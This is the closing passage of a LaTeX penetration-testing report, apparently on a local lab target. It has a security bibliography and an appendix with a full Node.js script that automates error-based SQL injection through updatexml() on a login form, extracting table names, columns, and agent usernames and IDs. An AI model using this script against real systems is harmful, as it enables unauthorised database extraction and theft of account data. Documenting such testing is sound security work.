\bibitem{php-ini-secure}
Dan Vau,
\textit{very-secure-php-ini GitHub Repository}, 
\url{https://github.com/danvau7/very-secure-php-ini}

\bibitem{owasp-php}
OWASP Foundation,
\textit{PHP Configuration Cheat Sheet}, 
\url{https://cheatsheetseries.owasp.org/cheatsheets/PHP_Configuration_Cheat_Sheet.html}

\bibitem{magic-hash}
M. Hark,
\textit{Exploiting PHP Loose Comparison Vulnerabilities: The Magic Hash Attack}, 
\url{https://medium.com/@maharkk01/exploiting-php-loose-comparison-vulnerabilities-the-magic-hash-attack-web-61e92407d134}

\bibitem{mariadb-union}
MariaDB Documentation,
\textit{UNION}, 
\url{https://mariadb.com/kb/en/union/}

\bibitem{mariadb-updatexml}
MariaDB Documentation,
\textit{UPDATEXML}, 
\url{https://mariadb.com/kb/en/updatexml/}

\bibitem{juice-shop}
OWASP,
\textit{OWASP Juice Shop GitHub Repository}, 
\url{https://github.com/juice-shop/juice-shop}

\bibitem{owasp-checklist}
OWASP Foundation,
\textit{OWASP Web Application Penetration Checklist v1.1}, 
\url{https://owasp.org/www-project-web-security-testing-guide/assets/archive/OWASP_Web_Application_Penetration_Checklist_v1_1.pdf}

\bibitem{cvedetails-php7234}
CVE Details,
\textit{PHP 7.2.34 Vulnerability Report}, 
\url{https://www.cvedetails.com/version/1334797/PHP-PHP-7.2.34.html}

\bibitem{gobuster-kali}
Kali Linux Tools,  
\textit{Gobuster – Directory Brute Forcing Tool},  
\url{https://www.kali.org/tools/gobuster/},

\bibitem{owasp-sql-injection}
OWASP Foundation,  
\textit{SQL Injection Prevention Cheat Sheet},  
\url{https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html},  

\end{thebibliography}


\appendix
\section{Scripts}
\appendix
\section*{Appendix A – Nodejs Table Enumeration Script}
\addcontentsline{toc}{section}{Appendix A – Database Enumeration Script}

\textbf{Description:}\\
The below script automates table name extraction using error-based SQL injection via the 
\\\texttt{updatexml()} function.

\begin{lstlisting}[language=JavaScript, label={lst:sql-js}]
const url = "http://172.17.0.2/login.php";

async function getColumnNames(table) {
    const colNames = [];
    let i = 0;

    while (true) {
        const sql = `' or updatexml(0,concat('~',(SELECT column_name 
                FROM information_schema.columns 
                WHERE table_name LIKE '${table}' 
                LIMIT ${i},1),'~'),0) or '#`;

        const body = new URLSearchParams({
            username: sql,
            password: 'x'
        }).toString();

        const resp = await fetch(url, {
            method: "POST",
            headers: {
                "Content-Type": "application/x-www-form-urlencoded",
            },
            body,
        });

        const html = await resp.text();

        if (!html.includes('XPATH syntax error')) break;

        const match = html.match(/~([^~]+)~/);
        if (match) {
            const col = match[1];
            colNames.push(col);
            i++;
        } else {
            console.log(`No column extracted for ${table}, stopping.`);
            break;
        }
    }

    return colNames;
}

async function getSchemaNames() {
    console.log('Extracting table names..')
    const tableNames = [];
    let attempt = 0;
    while (true) {
        try {
            const sql = `' or updatexml(0,concat('~',(SELECT table_schema 
                FROM information_schema.tables 
                WHERE table_schema NOT IN 
                ('mysql','information_schema','performance_schema','sys') 
                ORDER BY table_schema LIMIT ${attempt},1),'~'),0)or '# `;
            const body = new URLSearchParams({
                username: sql,
                password: 's'
            }).toString();
            // fetch request from browser
            const resp = await fetch(url, {
                "credentials": "include",
                "headers": {
                    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0",
                    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
                    "Accept-Language": "en-US,en;q=0.5",
                    "Content-Type": "application/x-www-form-urlencoded",
                    "Upgrade-Insecure-Requests": "1",
                    "Priority": "u=0, i"
                },
                "referrer": url,
                "body": body,
                "method": "POST",
                "mode": "cors"
            });
            attempt++;
            const pageRaw = await resp?.text();
            if (!pageRaw.includes('XPATH syntax error')) {
                console.log('No more XPATH errors – done.', attempt);
                break;
            }
            const m = pageRaw.match(/~([A-Za-z0-9_]+)~/);
            if (m) {
                tableNames.push(m[1]);
            } else {
                console.log('Error thrown but no valid name found → stop');
                break;
            }


        } catch (err) {
            console.error(err, 'something went wrong')
            break;
        }
    }
    return tableNames;
}

async function getAgentRecords() {
    console.log('Extracting agent names..')
    const records = [];
    let i = 0;

    while (true) {
        const sql = `' OR updatexml(0,concat('~',(SELECT username FROM agents LIMIT ${i},1),'~'),0) OR '#`;

        const body = new URLSearchParams({
            username: sql,
            password: 'x'
        }).toString();

        const resp = await fetch(url, {
            method: "POST",
            headers: {
                "Content-Type": "application/x-www-form-urlencoded",
            },
            body,
        });

        const html = await resp.text();

        if (!html.includes('XPATH syntax error')) {
            console.log(`All agent records extracted (${i} total).`);
            break;
        }

        const match = html.match(/~([^~]+)~/);
        if (match) {
            const record = match[1];
            // console.log(`Record #${i}: ${record}`);
            records.push(record);
            i++;
        } else {
            console.log(`Got error but no record at index ${i}, stopping.`);
            break;
        }
    }

    return records;
}

async function getAgentIds(agentUserName) {
    console.log(`Extracting ID for agent: ${agentUserName}`);
    let record = '';

    const sql = `' OR updatexml(0,concat('~',(SELECT id FROM agents WHERE username LIKE '${agentUserName}'),'~'),0) OR '#`;

    const body = new URLSearchParams({
        username: sql,
        password: 'x'
    }).toString();

    const resp = await fetch(url, {
        method: "POST",
        headers: {
            "Content-Type": "application/x-www-form-urlencoded",
        },
        body,
    });

    const html = await resp.text();

    if (!/XPATH syntax error/i.test(html)) {
        console.log(`No ID found for agent: ${agentUserName}`);
        return record;
    }

    const match = html.match(/~([^~]+)~/);
    if (match) {
        record = match[1];
    } else {
        console.log(`Got error but no ID extracted for agent: ${agentUserName}`);
    }

    return record;
}

async function getColoumnRecords(coloumn, tableName) {
    console.log('Extracting agent names..')
    const records = [];
    let i = 0;

    while (true) {
        const sql = `' OR updatexml(0,concat('~',(SELECT ${coloumn} FROM ${tableName} LIMIT ${i},1),'~'),0) OR '#`;

        const body = new URLSearchParams({
            username: sql,
            password: 'x'
        }).toString();

        const resp = await fetch(url, {
            method: "POST",
            headers: {
                "Content-Type": "application/x-www-form-urlencoded",
            },
            body,
        });

        const html = await resp.text();

        if (!html.includes('XPATH syntax error')) {
            console.log(`All agent records extracted (${i} total).`);
            break;
        }

        const match = html.match(/~([^~]+)~/);
        if (match) {
            const record = match[1];
            records.push(record);
            i++;
        } else {
            console.log(`Got error but no record at index ${i}, stopping.`);
            break;
        }
    }

    return records;
}

// self invoke function

(async function getTableNames() {
    console.log('Extracting table names..')
    const tableNames = [];
    let attempt = 0;
    while (true) {
        try {
            const sql = `' or updatexml(0,concat('~',(SELECT table_name 
                FROM information_schema.tables 
                WHERE table_schema NOT IN 
                ('mysql','information_schema','performance_schema','sys') 
                ORDER BY table_name LIMIT ${attempt},1),'~'),0)or '# `;
            const body = new URLSearchParams({
                username: sql,
                password: 's'
            }).toString();
            // fetch request from browser
            const resp = await fetch(url, {
                "credentials": "include",
                "headers": {
                    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0",
                    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
                    "Accept-Language": "en-US,en;q=0.5",
                    "Content-Type": "application/x-www-form-urlencoded",
                    "Upgrade-Insecure-Requests": "1",
                    "Priority": "u=0, i"
                },
                "referrer": url,
                "body": body,
                "method": "POST",
                "mode": "cors"
            });
            attempt++;
            const pageRaw = await resp?.text();
            if (!pageRaw.includes('XPATH syntax error')) {
                console.log('No more XPATH errors – done.', attempt);
                break;
            }
            const m = pageRaw.match(/~([A-Za-z0-9_]+)~/);
            if (m) {
                // console.log('table #', attempt, ':', m[1]);
                tableNames.push(m[1]);
            } else {
                console.log('Error thrown but no valid name found → stop');
                break;
            }


        } catch (err) {
            console.error(err, 'something went wrong')
            break;
        }
    }
    // const schemas = await getSchemaNames();
    console.log('************Table Names start **************');
    console.log('All Tables Names: ', tableNames);
    console.log('*************Table Names end**************');
    console.log('************Columns start **************');

    for (const table of tableNames) {
        console.log(`************Extracting Table of ${table} start **************`);
        const columns = await getColumnNames(table);
        console.log(`Columns: \n ${columns}`);

        //     for (const column of columns) {
        //         const records = await getColoumnRecords(column, table);
        // console.log(`Table: ${table}, Column: ${column}, Records:`, records);
        //     }
        console.log(`************Extracting Table of ${table} end **************`);
    }
    console.log('************Columns end **************');
    console.log('************ Agent Records start ***************');
    const agentsUserNames = await getAgentRecords('agents');
    for (const username of agentsUserNames) {
        const ids = await getAgentIds(username);
        console.log(`username: ${username}, Id:`, ids);
    }
    console.log('************ Agent Records end ***************');
})();
\end{lstlisting}

\begin{center}

\includegraphics[width=0.8\textwidth]{script.png}
\end{center}

\\

\hrulefill
\end{document}

